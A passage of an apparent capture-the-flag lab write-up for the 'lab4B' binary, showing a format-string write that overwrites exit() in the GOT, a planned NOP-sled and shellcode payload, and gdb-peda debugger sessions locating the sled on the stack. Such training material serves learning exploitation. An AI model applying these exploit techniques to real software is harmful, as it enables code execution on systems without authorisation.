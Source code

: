 ```nasm
Breakpoint 1, 0x08048729 in main ()
gdb-peda$ x/x 0x080499b8
0x80499b8 <exit@got.plt>:  0x04 ; Overwrite!
```

As you can see, we overwrote the original address with **0x04** (which is the size of the address). Awesome, it seems that we can alter the GOT. Here, we could use a small shellcode and overwrite the *exit()* address with a stack address. I was thinking about something like this:

`[address of exit() in GOT][magic sauce to rewrite the GOT][NOP + Shellcode]`

Let's switch to `gdb`.

## Dynamic Analysis

First, let's see where our shellcode will be in memory. Here, I put a breakpoint on `main+163` as it is the call to *exit()*.

```nasm
lab4B@warzone:/levels/lab04$ gdb -q ./lab4B
Reading symbols from ./lab4B...(no debugging symbols found)...done.
gdb-peda$ break *main+163
Breakpoint 1 at 0x8048730
gdb-peda$ r < <(python -c 'print("\x90" * 50)')
Starting program: /levels/lab04/lab4B < <(python -c 'print("\x90" * 50)')
��������������������������������������������������
[----------------------------------registers-----------------------------------]
EAX: 0x33 ('3')
EBX: 0x33 ('3')
ECX: 0x0
EDX: 0xb7fce898 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6b8 --> 0x0
ESP: 0xbffff630 --> 0x0
EIP: 0x8048730 (<main+163>:   call   0x8048560 <exit@plt>)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048721 <main+148>:   mov    DWORD PTR [esp],eax
   0x8048724 <main+151>:   call   0x8048530 <printf@plt>
   0x8048729 <main+156>:   mov    DWORD PTR [esp],0x0
=> 0x8048730 <main+163>:   call   0x8048560 <exit@plt>
   0x8048735:  xchg   ax,ax
   0x8048737:  xchg   ax,ax
   0x8048739:  xchg   ax,ax
   0x804873b:  xchg   ax,ax
Guessed arguments:
arg[0]: 0x0
[------------------------------------stack-------------------------------------]
0000| 0xbffff630 --> 0x0
0004| 0xbffff634 --> 0x64 ('d')
0008| 0xbffff638 --> 0xb7fcdc20 --> 0xfbad2088
0012| 0xbffff63c --> 0x0
0016| 0xbffff640 --> 0xbffff6f4 (" +d<0/\035\004")
0020| 0xbffff644 --> 0xbffff668 --> 0x90909090
0024| 0xbffff648 --> 0x90909090
0028| 0xbffff64c --> 0x90909090
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048730 in main ()
gdb-peda$ x/64x $esp
0xbffff630: 0x00000000  0x00000064  0xb7fcdc20  0x00000000
0xbffff640: 0xbffff6f4  0xbffff668  0x90909090  0x90909090
0xbffff650: 0x90909090  0x90909090  0x90909090  0x90909090
```